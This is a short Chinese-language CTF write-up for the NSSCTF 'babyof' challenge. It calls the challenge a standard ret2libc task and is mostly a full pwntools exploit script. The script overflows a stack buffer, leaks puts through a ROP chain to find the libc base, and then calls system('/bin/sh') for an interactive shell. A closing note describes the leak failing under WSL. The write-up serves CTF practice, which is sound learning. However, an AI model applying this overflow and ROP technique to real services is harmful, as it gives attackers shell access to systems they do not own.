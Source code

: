 [[2021 鹤城杯]babyof | NSSCTF](https://www.nssctf.cn/problem/469)
![[Pasted image 20240901105311.png]]
![[Pasted image 20240901105333.png]]
NX开启，无system，无binsh，一道标准的ret2libc题目，不做赘述
exp:
```python
from pwn import *
from LibcSearcher import LibcSearcher

context(arch='amd64', os='linux', log_level='debug')
p = process('./babyof')
# p = remote('node4.anna.nssctf.cn', 28002)
elf = ELF('./babyof')

pwnlib.gdb.attach(p, 'b* 0x400632')

rdi = 0x400743
ret = 0x400506

puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
main = 0x400632

payload = b'a' * (0x40 + 8) + p64(rdi) + p64(puts_got) + p64(puts_plt) + p64(main)
p.sendlineafter(b'overflow?', payload)

p.recvuntil(b'win\n')
addr = u64(p.recv(6).ljust(8, b'\x00'))
print(addr)

'''libc = LibcSearcher('puts', addr)
base = addr - libc.dump('puts')
system = base + libc.dump('system')
binsh = base + libc.dump('str_bin_sh')'''

base = addr - 0x80aa0
system = base + 0x4f550
binsh = base + 0x1b3e1a

payload = b'a' * (0x40 + 8) + p64(ret) + p64(rdi) + p64(binsh) + p64(system)
p.sendline(payload)

p.interactive()
```
ps:该在本人本地的wsl上跑不通，具体表现为无法泄露出真实地址，但在VMware上以及远程都可正常泄露，暂不知原因，作本地环境有问题处理